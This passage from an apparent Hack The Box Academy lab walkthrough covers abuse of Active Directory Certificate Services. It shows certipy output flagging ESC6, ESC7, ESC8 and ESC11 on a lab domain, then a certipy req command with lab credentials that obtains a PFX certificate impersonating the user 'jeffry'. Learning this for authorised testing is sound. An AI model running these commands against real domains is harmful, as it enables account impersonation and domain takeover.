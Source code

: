 ```
        Enroll                          : LAB.LOCAL\Authenticated Users
                                          LAB.LOCAL\Black Wasp
                                          LAB.LOCAL\James
                                          LAB.LOCAL\user_manageCA
                                          LAB.LOCAL\Juanmy
                                          LAB.LOCAL\Josy
        ManageCa                        : LAB.LOCAL\Black Wasp
                                          LAB.LOCAL\James
                                          LAB.LOCAL\user_manageCA
                                          LAB.LOCAL\Juanmy
                                          LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrators
        ManageCertificates              : LAB.LOCAL\Josy
                                          LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
                                          LAB.LOCAL\Administrators
    [!] Vulnerabilities
      ESC6                              : Enrollees can specify SAN and Request Disposition is set to Issue. Does not work after May 2022
      ESC7                              : 'LAB.LOCAL\\Black Wasp' has dangerous permissions
      ESC8                              : Web Enrollment is enabled and Request Disposition is set to Issue
      ESC11                             : Encryption is not enforced for ICPR requests and Request Disposition is set to Issue
<SNIP>
```

Before abusing `ESC6`, students need to add vHost entries for the domain name `lab.local`, the CA's name `lab-LAB-DC-CA`, and its machine's DNS name `LAB-DC.lab.local` (which is also the DC's DNS name):

Code: shell

```shell
sudo sh -c 'echo "STMIP lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.228.236 lab.local lab-LAB-DC-CA LAB-DC.lab.local" >> /etc/hosts'
```

Abusing `ESC6` is similar to abusing `ESC1`; students need to use the `req` command of `certipy`, specifying the template `User` (which allows `Client Authentication`) for the `-template` option and the `UPN` `Jeffry` for the `-upn` option; students will attain a `PFX` certificate for the `Jeffry` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template User -upn jeffry
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template User -upn jeffry@lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 67
[*] Got certificate with UPN 'jeffry@lab.local'
[*] Certificate object SID is 'S-1-5-21-2570265163-3918697770-3667495639-1103'
[*] Saved certificate and private key to 'jeffry.pfx'
```
